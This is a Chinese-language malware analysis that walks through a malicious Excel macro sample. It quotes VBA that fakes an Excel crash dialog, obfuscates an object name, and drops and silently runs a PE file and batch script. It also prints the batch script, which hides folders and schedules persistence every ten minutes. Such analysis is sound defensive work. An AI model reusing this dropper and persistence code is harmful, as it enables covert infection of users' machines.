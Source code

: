 同样的，我们对该段代码进行调试分析。<br>
代码开头还是通过Dim定义了几个变量，然后通过Environ获取了环境变量APPDAT和TEMP的路径分别赋值给Digital和request<br>
Digital = Environ$(“APPDATA”)<br>
request = Environ$(“TEMP”)

接着通过<br>
Application.Wait Now + TimeValue(“0:00:03”)<br>
休眠3秒

休眠之后通过<br>
a = MsgBox(“Microsoft Excel has stopped working”, vbCritical, “Warning”)<br>
进行弹框，弹框内容就是我们先前看到的提示框，这就是第二种迷惑用户的手法。<br>
在上一个样本中，恶意宏代码运行之后，程序会显示一个看起来正常的xls文档以消除用户的疑心。在本样本中，恶意代码运行之后，程序是通过弹框提示用户文档打开错误以消除用户的疑心。两种方法的目标都在于，让用户误以为，打开的文档是没有问题的。

弹框之后，程序会通过<br>
sunjava = “Scr” + “ipting.File” + “System” + “Object”<br>
Set digit = CreateObject(sunjava)<br>
创建一个Scripting.FileSystemObject对象

接着程序将通过

```
Sheet12.OLEObjects("Object 1").Copy
Sheet8.OLEObjects("Object 1").Copy
digit.CopyFile request &amp; "Vol", Digital &amp; "s.bat" 'FileFormat:=xlOpenXMLWorkbook
digit.CopyFile request &amp; "s", Digital &amp; "s" 'FileFormat:=xlOpenXMLWorkbook
```

分别将sheet中的数据拷贝到Digital，也就是%appdata%中并且命名为s和s.bat

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01133edea2620486b5.png)

然后通过<br>
https = Digital &amp; “” &amp; “s.bat”<br>
Call Shell(https, vbHide)<br>
拼接s.bat的路径并且再次通过Shell指令运行。

至此宏代码运行完成。

我们可以看到，在该样本中，宏代码很短，宏代码的功能位<br>
1.弹框迷惑用户<br>
2.释放一个S文件，经查看为一个PE文件<br>
3.释放一个s.bat批处理文件<br>
4.调用执行s.bat文件

到这里我们也可以猜测出，s.bat文件将用于调用执行s文件。

我们查看一下s.bat的内容：

```
echo off
md %USERPROFILE%InetLogsCust
md %USERPROFILE%InetLogsPool
md %USERPROFILE%CommonBuildOffice
md %USERPROFILE%FilesSharedWeb
md %USERPROFILE%ViewerInformationPolicy
attrib +a +h +s %USERPROFILE%Inet
attrib +a +h +s %USERPROFILE%Common
attrib +a +h +s %USERPROFILE%Files
attrib +a +h +s %USERPROFILE%Viewer
del /f %USERPROFILE%InetLogsPoolagnia
SET /A %COMPUTERNAME%
SET /A RAND=%RANDOM% 10000 + 2
echo %COMPUTERNAME%-%RAND% &gt;&gt; %USERPROFILE%InetLogsPoolagnia
schtasks /delete /tn Feed /f
schtasks /delete /tn Sys_Core /f
schtasks /create /sc minute /mo 10 /f /tn Sys_Core /tr %USERPROFILE%FilesSharedWebgapdat.exe
```